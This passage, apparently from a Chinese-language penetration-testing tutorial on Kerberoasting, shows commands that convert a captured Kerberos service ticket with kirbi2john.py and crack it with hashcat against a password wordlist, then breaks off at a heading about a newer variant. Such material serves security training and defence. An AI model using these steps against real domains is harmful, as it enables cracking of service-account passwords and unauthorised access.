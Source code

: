 ```bash
python kirbi2john.py tgs.kirbi
```

[![](assets/1708919803-dfcfbeff14c7f0690a7de9349db37635.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142119-edf5f47a-ce25-1.png)

使用`hashcat`进行破解

```bash
hashcat -m 13100 '/home/kali/Desktop/hashes' '/home/kali/Desktop/10_million_password_list_top_100000.txt' --force
```

[![](assets/1708919803-8233120275e3c955f2f3508829758357.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142127-f2dedd8a-ce25-1.png)

## 新 kerberoasting 攻击
